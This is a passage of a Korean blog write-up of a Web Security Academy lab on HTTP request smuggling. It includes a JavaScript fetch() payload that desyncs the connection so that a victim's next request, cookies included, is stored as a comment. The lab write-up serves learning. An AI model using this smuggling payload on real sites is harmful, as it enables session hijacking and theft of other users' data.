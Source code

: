 결과는 다음과 같다. 두번째 탭의 요청의 일부가 커멘트로 저장되었다. 이 것은 첫번째 탭에서 지정한 스머글링 요청의 CL값 만큼 저장된 것이다. 여기서 CL값이 너무 크면 타임아웃이 발생한다. 

![](/images/burp-academy-hrs-20-11.png)


6. 웹 브라우저로도 재현해본다. 

```
fetch('https://0abc00fc0374ea7b8303055000f900df.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0abc00fc0374ea7b8303055000f900df.h1-web-security-academy.net\r\nCookie: session=OTv7VATL32x943RTb5XTmk5q15k1by1N; _lab_analytics=yu7rszsAe5yU3WQxzN03QbJ1ni2IEZGBJIXQmfvnBdgZJt1FiuorBqsov9ZNCmBW5EYpbUwznbIjgR8oLWM07rJ4MQRXpppNcnGuRcURlFfhKPNdb2ds4PF79nb9r9uDqVbBsaZabWjtXVfdpBjPuM6t8XEHjWfm315oMQwTq8CDbOL4MZLqrMZ1hMsiwbVtFMXVgdFKfQlfoiuhUtTZZs1K1vDenk1bWyCzXO5RFuzkEHhhMsw0oEpNIMLHINXD\r\nContent-Length: 150\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ckTPQt7cEB3bGUkygZhDXM6Fg2p2dieC&postId=2&name=tester2&email=teser@ginandjuice.shop&website=&comment=test',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0abc00fc0374ea7b8303055000f900df.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

어라.. 잘 되지 않는다. 404응답이 돌아온다. 여기서 삽질을 좀 했다. 결국 알아낸 것. 주의점! 웹 브라우저로 테스트할 때는 Burp 를 통하지 않도록 한다. Burp를 통하면 Connection: close가 들어가 버려 제대로된 테스트 결과가 나오지 않는 것 같다. 


![](/images/burp-academy-hrs-20-7.png)
